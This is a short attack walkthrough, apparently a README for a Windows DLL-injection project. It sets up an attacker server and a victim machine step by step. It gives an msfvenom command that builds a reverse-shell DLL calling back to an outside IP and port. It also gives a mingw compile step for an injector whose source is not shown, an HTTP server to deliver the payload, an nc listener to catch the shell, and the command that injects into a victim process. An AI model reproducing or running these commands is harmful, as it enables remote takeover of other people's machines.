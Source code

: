 # Attacker server
- Create malicious dll with msfvenom
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.243.129 LPORT=4444 -f dll -o shell.dll
```
- Create a C++ file to complile exe (shell.cpp)
- Compile exe file from C++ file:
```bash
x86_64-w64-mingw32-g++ -o shell.exe shell.cpp -static-libgcc -static-libstdc++
```
- Run listening server
```bash
python -m http.server 80
nc -nvlp 4444
```

# Victime machine
```bash
.\shell.exe PID_of_injected_process
```